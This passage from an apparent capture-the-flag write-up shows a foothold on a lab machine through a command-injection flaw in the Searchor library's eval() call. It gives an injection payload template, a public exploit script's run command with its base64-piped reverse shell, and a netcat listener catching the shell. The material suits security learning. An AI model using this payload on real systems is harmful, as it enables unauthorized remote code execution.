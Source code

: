 ## Shell as SVC

Taking a look at the Snyk report again, there was a link to a [Github commit](https://github.com/ArjunSharda/Searchor/commit/29d5b1f28d29d6a282a5e860d456fab2df24a16b) that was the code that changed. The code in red is the vulnerable version that was succeptable to RCE. Below is the snippet that was changed:

```python
url = eval(
            f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
        )
```

From my previous CTF experiences looking at vulnerable Python code, I know that using the __eval()__ function can be very risky and can often lead to injection vulnerabilities if not implemented correctly. Looking at this code snippet, it is actually pretty easy to inject code into the __query__ variable. The jist of what needs to be done is that we need to format a curl command with the '-d' option to specify data that we want to send to the /search endpoint. We first will specify __'engine=Google'__ and then for query we will want to start it out with __',__ to escape from the query parameter and add another arg for the format string.  After that since this is python we will want to import the OS module so that we can inject a shell into the code, after we add in our code to start a reverse shell back to us we want to end the code with __))# comment__ to properly close out the code and comment out the rest of it. Basically the payload you want should look something like this:

```python
',__import__('os').system('code_to_execute_a_reverse_shell')) # super_hacker_man
```

There is actually already a [bashscript](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection) on github that will exploit this for us. How the payload for this was made was interesting too. It base64 encodes a reverse shell, saves it to a variable, echoes the variable into base64 -d to decode it, and the pipes the output of that into bash for it to be executed. Pretty cool right?

Running this script with the command:

```bash
bash exp.sh http://searcher.htb 'your_ip' 'your_port'
```

Will get you a reverse shell, just make sure to start a netcat listener first.

```bash
nc -lvnp 9999
Listening on 0.0.0.0 9999
Connection received on 10.10.11.208 44112
bash: cannot set terminal process group (1639): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:/var/www/app$ 

svc@busqueda:/var/www/app$ id
id
uid=1000(svc) gid=1000(svc) groups=1000(svc)
```

Let's see if we can read the __user.txt__ file for our first flag. We can!
